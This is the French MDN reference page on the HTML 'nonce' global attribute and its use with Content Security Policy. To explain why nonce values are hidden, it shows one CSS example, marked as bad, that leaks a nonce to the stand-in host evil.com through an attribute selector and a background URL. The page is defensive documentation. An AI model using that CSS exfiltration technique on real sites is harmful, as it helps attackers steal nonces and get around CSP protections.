 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
translation_of: Web/HTML/Global_attributes/nonce
---
```


{{HTMLSidebar("Global_attributes")}}

L'[attribut universel](/fr/docs/Web/HTML/Global_attributes) **`nonce`** est un attribut de contenu qui définit un nonce cryptographique pouvant être utilisé par une [règle de sécurité du contenu (CSP)](/fr/docs/Web/HTTP/CSP) afin de déterminer si la récupération d'un élément sera autorisée ou non.

## Description

L'attribut `nonce` permet d'autoriser certains éléments spécifiques (comme un script ou un style donné) en évitant d'avoir à utiliser la directive [CSP](/fr/docs/Web/HTTP/CSP) `unsafe-inline` qui autoriserait _tous_ les scripts ou styles embarqués.

> **Note :** `nonce` doit uniquement être utilisé pour les cas où il n'est pas possible de faire autrement que d'utiliser un script ou un style embarqué non sécurisé. Si vous n'avez pas besoin de `nonce`, il ne faut pas l'utiliser. Si votre script est statique, vous pouvez utiliser une empreinte (<i lang="en">hash</i>) CSP à la place (voir les notes d'utilisation sur [les scripts embarqués non sécurisés](/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#scripts_embarqués_non_fiables).)
>
> Mieux vaut toujours exploiter les protections [CSP](/fr/docs/Web/HTTP/CSP) au maximum et donc éviter les nonces ou les scripts embarqués non sécurisés tant que possible.

### Utiliser `non` pour autoriser un élément &lt;script&gt;

Plusieurs étapes sont nécessaires afin d'utiliser un nonce pour autoriser un script embarqué.

#### Générer une valeur

Sur le serveur web, générez une chaîne de caractères encodées en base64 à partir de 128 bits de données générés par un générateur de nombres aléatoires cryptographique. Les nonces doivent être générés différemment à chaque chargement de la page. En Node.js par exemple, on pourra écrire&nbsp;:

```js
const crypto = require('crypto');
crypto.randomBytes(16).toString('base64');
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Autoriser le script embarqué

Le nonce généré côté serveur peut ensuite être utilisé sur le script embarqué qu'on souhaite autoriser&nbsp;:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">…</script>
```

#### Envoyer le nonce avec un en-tête CSP

Enfin, il faut envoyer la valeur du nonce dans un en-tête [`Content-Security-Policy`](/fr/docs/Web/HTTP/Headers/Content-Security-Policy) en préfixant la chaîne de caractères avec `nonce-`&nbsp;:

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Masquage et accès au nonce

Pour des raisons de sécurité, le contenu de l'attribut `nonce` est masqué (c'est une chaîne vide qui sera renvoyé).

```js example-bad
script.getAttribute('nonce'); // renvoie la chaîne vide
```

La propriété [`nonce`](/fr/docs/Web/API/HTMLElement/nonce) est la seule façon d'accéder aux nonces&nbsp;:

```js example-good
script.nonce; // renvoie la valeur du nonce
```

Un tel masquage empêche des acteurs malveillants d'exfiltrer les données du nonce grâce à des mécanismes qui permettent d'accéder aux attributs comme&nbsp;:

```css example-bad
script[nonce~=peuimporte] {
  background: url("https://evil.com/nonce?peuimporte");
}
```

## Spécifications

{{Specifications}}

## Compatibilité des navigateurs

{{Compat}}

## Voir aussi

- [`HTMLElement.nonce`](/fr/docs/Web/API/HTMLElement/nonce)
- [Stratégie de sécurité du contenu (<i lang="en">Content Security Policy</i>) (CSP)](/fr/docs/Web/HTTP/CSP)
- La directive CSP [`script-src`](/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
